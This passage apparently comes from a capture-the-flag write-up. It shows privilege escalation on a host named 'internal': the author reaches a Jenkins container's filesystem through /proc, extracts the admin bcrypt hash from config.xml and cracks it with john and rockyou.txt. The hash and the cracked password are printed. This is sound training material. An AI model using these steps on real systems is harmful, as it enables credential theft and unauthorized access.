 ```bash
aubreanna@internal:~$ ./linpeas.sh > aubreanna_local_enum.txt
```

But upon further inspection found that it confirmed a lot of information that I had already known. However, I remembered that the jenkins container was running under the same uid as aubreanna and I decided to see if I could access any of the filesystem through `/proc`. I attempted to navigate to the jenkins process and found that I was able to access the root of the of the namespace where I was quickly able to leak the jenkins admin credentials.

```bash
aubreanna@internal:/proc/1506/root$ ls
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
aubreanna@internal:/proc/1506/root$ cd var/
aubreanna@internal:/proc/1506/root/var$ ls
backups  cache  jenkins_home  lib  local  lock  log  mail  opt  run  spool  tmp
aubreanna@internal:/proc/1506/root/var$ cd jenkins_home/
aubreanna@internal:/proc/1506/root/var/jenkins_home$ ls
com.cloudbees.hudson.plugins.folder.config.AbstractFolderConfiguration.xml  identity.key.enc                                jobs              queue.xml.bak             updates
config.xml                                                                  jenkins.install.InstallUtil.lastExecVersion     logs              secret.key                userContent
copy_reference_file.log                                                     jenkins.install.UpgradeWizard.state             nodeMonitors.xml  secret.key.not-so-secret  users
hudson.model.UpdateCenter.xml                                               jenkins.model.JenkinsLocationConfiguration.xml  nodes             secrets                   war
hudson.plugins.git.GitTool.xml                                              jenkins.telemetry.Correlator.xml                plugins           tini_pub.gpg              workflow-libs
```

```bash
aubreanna@internal:/proc/1506/root/var/jenkins_home/users$ cat admin_3190494404640478712/config.xml | grep '<id>'
  <id>admin</id>
aubreanna@internal:/proc/1506/root/var/jenkins_home/users$ cat admin_3190494404640478712/config.xml | grep 'hudson.security.HudsonPrivateSecurityRealm_-Details' -A1
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$MDKawySp3DRfUrrKFrBAe.o2D4qCzIJJaPpRfc3u2CR/w.NzbJjqe</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <org.jenkinsci.main.modules.cli.auth.ssh.UserPropertyImpl>
```

### Cracking the Jenkins admin credentials

I pulled the bcrypt hash from above and fed it into `john`, again running it against the `rockyou.txt` wordlist. Almost instantaneously it returned a collision for the password `spongebob`.

```bash
root@kali:~/ctf# echo 'admin:$2a$10$MDKawySp3DRfUrrKFrBAe.o2D4qCzIJJaPpRfc3u2CR/w.NzbJjqe' > jenkins_admin.txt
root@kali:~/ctf# john jenkins_admin.txt --wordlist=/usr/share/wordlists/rockyou.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob        (admin)
1g 0:00:00:01 DONE (2020-12-05 06:07) 0.6172g/s 66.66p/s 66.66c/s 66.66C/s spongebob..beautiful
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

